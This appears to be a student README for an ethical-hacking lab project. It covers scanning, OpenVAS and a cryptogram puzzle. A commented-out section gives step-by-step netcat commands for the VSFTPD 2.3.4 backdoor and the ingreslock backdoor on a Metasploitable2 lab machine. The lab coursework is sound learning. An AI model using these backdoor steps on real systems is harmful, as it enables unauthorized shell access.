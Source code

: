 
# Pentesting Project | Ethical Hacking Project

This pentesting project is designed to provide a comprehensive introduction to the field of ethical hacking. It will cover a wide range of topics, including:

- Network scanning
- Vulnerability assessment
- Exploitation techniques

By the end of this project, you will have a solid understanding of the tools and techniques used by hackers, as well as the knowledge and skills needed to identify and mitigate potential vulnerabilities in your own systems.

## Service and Vulnerability Detection

This section of the project will focus on the detection of services and vulnerabilities on target systems. You will learn how to use various scanning tools and techniques to identify open ports, services, and software versions on a target system. Additionally, you will learn how to use vulnerability scanners to identify known vulnerabilities in the software running on a target system. This will include both commercial and open-source scanners.

## Exploitation

Once you have identified potential vulnerabilities in a target system, the next step is to exploit them. In this section, you will learn how to use various exploitation frameworks and tools to gain access to a target system. You will also learn how to use social engineering and phishing techniques to trick users into giving you access to their systems.

## Post Exploitation

After gaining access to a target system, the next step is to maintain and expand that access. In this section, you will learn how to use various post-exploitation frameworks and tools to gather information about the target system, move laterally through a network, and establish persistent access. Additionally, you will learn how to use common techniques to evade detection and hide your presence on the target system.

## Web Pentesting

This section of the project will focus on web application security. You will learn how to identify and exploit common web application vulnerabilities, such as SQL injection and cross-site scripting (XSS). Additionally, you will learn how to use various web application scanners and manual testing techniques to identify vulnerabilities in web applications.

## Playing picoCTF

In this section of the project, you will put your new skills to the test by playing picoCTF, a capture the flag (CTF) competition designed to teach the basics of computer security. You will learn how to solve various types of security challenges, such as cryptography, reverse engineering, and web security.

<!---
## Hosts IP Addresses
***Windows 7: 192.168.1.101/24 <br>
Kali Linux: 192.168.1.102/24 <br>
Metasploitable2: 192.168.1.103/24***<br>

## Table of contents

### Task 1: General Hacking Capability
1.1 Cryptogram <br>
1.2 Matchstick Puzzle <br>

### Task 2: Service and Vulnerability Detection
2.1 nmap<br>
2.2 OpenVas

### Task 3: Exploitation
3.1 Services: Backdoors <br>
3.2 distcc Remote Code Execution Vulnerability

### Task 4: Post Exploitation
4.1 Escalate privilege

### Task 5: Web Pentesting
5.1 The SQLI page <br>
5.2 The Stored XSS page

### Task 6: picoCTF

## Task 1: General Hacking Capability

### 1.1 Cryptogram
The objective of this task is to decrypt the hidden message using the given letters found under each box. Provided that the letter “Q” is “T”, we can logically assume the first word is “THERE”. From there, my approach was to guess the word with the smallest letters in length, like 3 characters, that also has the same repeating letter with a few other similar words. Then, I made a list of found letters to substitute them and check my logic later.

Halfway through the solving.
Fully decrypted text is shown in the picture. The quote is "There are so many opportunities in life that the loss of two or three capabilities is not debilitative".

### 1.2 Matchstick Puzzle
This is the only mathematical way I came up with.

## Task 2: Service and Vulnerability Detection

### 2.1 nmap
Nmap stands for Network Mapper which is an open-source tool frequently used by the system and network administrators for network discovery, security auditing, network inventory, managing service upgrade schedules, and monitoring host or service uptime (Lyon, N.D, https://nmap.org/)
The objective of this task is to learn what services are running on TCP port 8787. So, to achieve this I used Nmap. information by entering the following command: <br>

```sudo nmap -sV -p 8787 192.168.1.103``` <br>

result:<br>
The outcome depicts that port 8787 of host 192.168.1.103 is running the service DRB located in folder /usr/lib/ruby/1.8/drb with the version Ruby DRb RMI (Ruby 1.8).

### 2.2 OpenVas
The objective of this task is to scan the requested target, Metasploitable2 VM and generate a vulnerability report. So, I used OpenVAS to scan all TCP ports of the target machine and produced a vulnerability report. 

The following steps are implemented to accomplish this task:
- Create a port list, target and task.

Steps list:
1. Under the Configuration tab, click Ports Lists.
2. Click the Star Icon (on the top left of the screen) to create a New Ports List.
3. Fill out the form with the correct details and click Create.
4. The created port list should appear on the list, as shown below.

5. Under the Configuration tab, click Targets.
6. Click the Star Icon (on the top left of the screen) to create a New Target.
7. Fill out the form with the correct details and click Create.
8. The created target should appear on the list, as shown below.

9. Click Tasks under Scans tab
10. Click the Star Icon (on the top left of the screen) to create a New Task.
11. Fill out the details and leave the rest as default, then click Create.
12. The created task should appear on the list, as shown below.

13. Run the scan.
14. Once done, click on Done to show scan results.
15. Download the results by selecting the output file type and clicking the Green Arrow to proceed with the downloading.

B. Report 1 Result Overview 
Report 2 Result Overview
According to these reports, it can be drawn that Report 1 contains 4 more vulnerable ports, with the severity 'High', than Report 2. Those ports are ports 6667, 32980 and 8180.

Port 6667: 
Port 32980: 
Port 8180: 

## Task 3: Exploitation 

### 3.1 Services: Backdoors 
This task involves the use of exploitation to gain access to the target machine. The objective is to use VSFTPD v2.3.4 backdoor in part A. Very Secure FTP Daemon (VSFTPD) is an FTP server for UNIX- like systems including Linux which has been compromised when an unknown party has uploaded a malicious version of 2.3.4 which contains a backdoor.

The following steps will illustrate how I used nc to establish a backdoor as penetrated below.

Backdoor VSFTPD v2.3.4
Steps list:
1. nc to Metasploitable2 VM on port 21: 
nc 192.168.1.103 21
2. Login as user backdoored:) :
user backdoored:)
3. Type invalid as the password:
pass invalid
4. Press CTRL + ] to escape login and quit nc
5. nc to Metasploitable2 VM on port 6200
nc 192.168.1.103 6200
Proof of exploit
- id
- ip addr show dev eth0
- hostname

### B. Ingreslock Backdoor using Netcat
This section will illustrate the ingreslock backdoor that listens on port 1524 on Kali. But for this part, I utilised Netcat, which is famous for being “the Swiss Army knife” in networking tools. Netcat, or nc, is a dependable back-end device that can establish a connection (UDP or TCP) between two computers. Therefore, files can be transferred, and commands can remotely be executed on the target device.
The following are the steps used to accomplish this task:
1. Netcat into Metasploitable2 VM on port 1524:
2. netcat 192.168.1.103 1524
Proof exposition:
1. whoami
2. ip a show dev eth0
3. pwd

--->
